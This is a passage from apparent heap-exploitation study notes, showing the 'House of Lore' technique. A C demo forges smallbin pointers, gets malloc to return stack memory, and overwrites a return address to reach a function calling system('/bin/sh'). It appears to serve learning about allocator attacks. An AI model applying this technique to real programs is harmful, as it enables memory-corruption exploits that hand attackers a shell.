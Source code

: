 ```cpp
    */
    exit(0);
}
```

## House of Lore

Use the mechanism of smallbin to control buffer. (maybe Smallbin Attack)

([X86 EXPLOITATION 101: “HOUSE OF LORE” – PEOPLE AND TRADITIONS](https://gbmaster.wordpress.com/2015/07/16/x86-exploitation-101-house-of-lore-people-and-traditions/))

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

void sh() {
    system("/bin/sh");
    exit(0);
}

int main() {
    void *p, *q, *r, *s, *t;
    char buf1[0x20], buf2[0x20];
    fprintf(stderr, "buf1 => %p\n", buf1);
    fprintf(stderr, "buf2 => %p\n", buf2);

    p = malloc(0x68);
    fprintf(stderr, "p = malloc(0x68) => %p\n", p);
    *(uint64_t *)((uint64_t)buf1 + 0x10) = (uint64_t)p - 0x10; // Set buf1's fd = p - 0x10
    *(uint64_t *)((uint64_t)buf1 + 0x18) = (uint64_t)buf2; // Set buf1's bk = buf2
    *(uint64_t *)((uint64_t)buf2 + 0x10) = (uint64_t)buf1; // Set buf2's fd = buf1

    q = malloc(0x408);
    fprintf(stderr, "q = malloc(0x408) => %p\n", q);
    free(p);
    r = malloc(0x508);
    fprintf(stderr, "r = malloc(0x508) => %p\n", r); // Trigger malloc_consolidate
    *(uint64_t *)((uint64_t)p + 0x8) = (uint64_t)buf1; // Set p's bk = buf1
    s = malloc(0x68);
    fprintf(stderr, "s = malloc(0x68) => %p\n", s); // Get p (The original Freed Chunk)
    t = malloc(0x68);
    fprintf(stderr, "t = malloc(0x68) => %p\n", t); // Allacte to Stack
    uint64_t sh_addr = (uint64_t)sh;
    memcpy(t + 0x48, &sh_addr, 8);
}
```

## House of Spirit

